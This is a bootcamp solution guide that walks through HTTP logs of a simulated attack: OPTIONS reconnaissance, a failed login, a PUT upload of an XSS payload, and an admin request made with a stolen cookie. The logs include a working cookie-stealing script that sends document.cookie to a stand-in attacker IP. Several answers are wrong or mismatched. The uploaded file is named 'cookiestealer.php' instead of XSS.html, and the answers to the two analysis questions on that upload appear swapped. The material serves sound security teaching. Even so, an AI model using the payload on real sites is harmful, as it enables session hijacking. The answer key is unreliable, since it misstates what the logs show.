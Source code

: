 ## Solution Guide: HTTP Requests and Responses

The goal of this activity was to combine skills in research and critical thinking to investigate the HTTP sequences of a web attack that occurred on your company's servers.

---

**Note:** While we can't be absolutely sure about what happened due to the corrupted logs, these are good guesses based on the information we have.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.


   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

    **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

    - Solution: They used the OPTIONS method here. This was the attacker's reconnaissance phase, where they found out all available HTTP methods that can be requested to the HTTP server.

   **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

   - Solution: The OPTIONS method is useful for an attacker to find out what kind of request methods they can leverage while attempting to compromise an HTTP server.

2. The system admins reported some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

    **Questions:** 
      - What status code was returned in this response?

        - Solution: 401.

      - According to the response body, what kind of method was used to generate this HTTP response?

        - Solution: While we don't see the request, we can tell the attacker attempted to log into the login portal with a POST request.

     - What sort of information was input to this HTTP request?

         - Solution: The response body shows a username and password being entered into the web page. The response error status code 401 indicates an invalid authorization attempt.

    **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

    - Solution:  While we can't see the request, we can tell the attacker attempted to log into the login portal with a POST request. The response body shows a username and password being entered into the webpage while the the response error status code 401 indicates an invalid authorization attempt.

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
         - Solution: The attacker used the PUT method.

      - What file name was uploaded to the site, according to the request body?
        - Solution: `cookiestealer.php`.

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      
        **Hint**: Google the term "XSS" if you need help.

        - Solution: The attacker could not inject XSS code without uploading a file with it.
    
      - How did the server respond?

        - Solution: The attacker used the PUT method to upload a cross-site script to steal the cookies of users and send the cookies to their own server.

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request?
    
    - Solution: Based on the HTTP Response 3,  the attacker was able to obtain a victims cookie and use it in a subsequent request.

    **Analysis:** Is there anything interesting about the URL requested?
    
    - Solution: Looking at HTTP Request 4, it's clear that the attacker stole a cookie and was able to log into the admin portal using a GET request with stolen cookies set in the header.

--- 
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

